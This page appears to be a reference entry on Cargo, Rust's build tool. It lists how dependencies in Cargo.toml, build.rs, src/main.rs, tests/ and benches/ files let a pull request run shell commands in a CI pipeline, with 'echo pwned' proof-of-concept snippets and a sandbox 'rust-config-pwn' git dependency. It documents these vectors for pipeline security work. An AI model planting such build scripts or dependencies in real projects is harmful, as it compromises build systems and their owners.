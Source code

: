 ```yaml
---
title: Cargo
tags:
  - cli
  - eval-sh
  - config-file
references: 
- https://doc.rust-lang.org/cargo/commands/cargo-build.html
files: [.cargo/cargo.toml,Cargo.toml,build.rs]
---
```


`cargo` is the official tool used to compile and run rust projects.

## Build config

Adding dependencies in `Cargo.toml`, it is possible to gain RCE via the methods defined in their respective section.
  - `cargo build`: `dependencies`, `build-dependencies`
  - `cargo run`: `dependencies`
  - `cargo test`: `dependencies`, `dev-dependencies`

```toml
[dependencies]
rust-config-pwn = { git = "https://github.com/boost-rnd/lotp-sandbox-rust-dep.git" }

[build-dependencies]
rust-config-pwn = { git = "https://github.com/boost-rnd/lotp-sandbox-rust-dep.git" }

[dev-dependencies]
rust-config-pwn = { git = "https://github.com/boost-rnd/lotp-sandbox-rust-dep.git" }
```

## Build scripts

`cargo build` will execute `build.rs` in the root directory before building the project. The name is defined in `Cargo.toml` as `package.build`.
Here is `build.rs` to RCE:

```rust
fn main() {
    let _ = std::process::Command::new("sh").arg("-c").arg("echo pwned").output().expect("failed to execute process");
}
```

⚠️ Note: The build process doesn't have access to the environnement variable from the bash session.


## Run

`cargo run` execute the code under `src/main.rs` which allows RCE:

```rust
fn main() {
    let _ = std::process::Command::new("sh").arg("-c").arg("echo pwned").output().expect("failed to execute process");
}
```

## Test

`cargo test` executes every file under `tests/` as crates. This allows for RCE via `tests/pwn.rs`:

```rust
#[test]
fn pwn() {
    let _ = std::process::Command::new("sh").arg("-c").arg("echo pwned").output().expect("failed to execute process");
}
```

## Benchmarks

`cargo bench` executes every file under `benches/` as crates. This allows for RCE via `benches/pwn.rs`:

```rust
#![feature(test)]
extern crate test;
#[cfg(test)]
mod tests {
    #[bench]
    fn pwn(_b: &mut test::Bencher) {
        let _ = std::process::Command::new("sh").arg("-c").arg("echo pwned").output().expect("failed to execute process");
    }
}
```

